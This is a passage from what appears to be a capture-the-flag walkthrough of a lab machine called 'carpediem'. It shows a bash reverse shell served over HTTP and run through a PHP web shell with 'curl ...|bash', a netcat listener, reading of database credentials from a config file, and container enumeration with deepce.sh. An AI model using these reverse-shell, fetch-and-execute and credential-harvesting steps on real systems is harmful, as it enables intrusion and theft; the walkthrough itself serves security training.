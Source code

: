 The uploaded php file is removed after a few minutes, so create a simple reverse shell:
```bash
➜  carpediem echo "bash -i >& /dev/tcp/10.10.14.10/4488 0>&1" > rev.sh
➜  carpediem chmod +x rev.sh 
➜  carpediem python3 -m http.server 80

## Do a GET request to run 'rev.sh'
GET /uploads/1662983460_exploit.php?cmd=curl%20http://10.10.14.10/rev.sh|bash

➜  carpediem nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.167] 46968
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@3c371615b7aa:/var/www/html/portal/uploads$ id && hostname
uid=33(www-data) gid=33(www-data) groups=33(www-data)
3c371615b7aa
```


### Step 3
Enumerate the victim machine and we can start by looking for SQL credentials.
```bash
www-data@3c371615b7aa:/var/www/html/portal/classes$ cat DBConnection.php
<?php
if(!defined('DB_SERVER')){
    require_once("../initialize.php");
}
class DBConnection{

    private $host = 'mysql';
    private $username = 'portaldb';
    private $password = 'J5tnqsXpyzkK4XNt';
    private $database = 'portal';
```

Looking around further we can see we're in a container. Upload `deepce.sh` to enumerate and it gives little to no info.. 
```bash
www-data@3c371615b7aa:/dev/shm$ bash deepce.sh
[... snip ...]
[+] Inside Container ........ Yes
[+] Container Platform ...... docker
[+] Container tools ......... None
[+] Docker Version .......... Version Unknown
[+] Dangerous Capabilities .. Unknown (capsh not installed)
[+] Privileged Mode ......... Unknown
[+] Useful tools installed .. Yes
/usr/bin/curl
/usr/bin/wget
/usr/bin/gcc
/bin/hostname
/usr/bin/python3
```
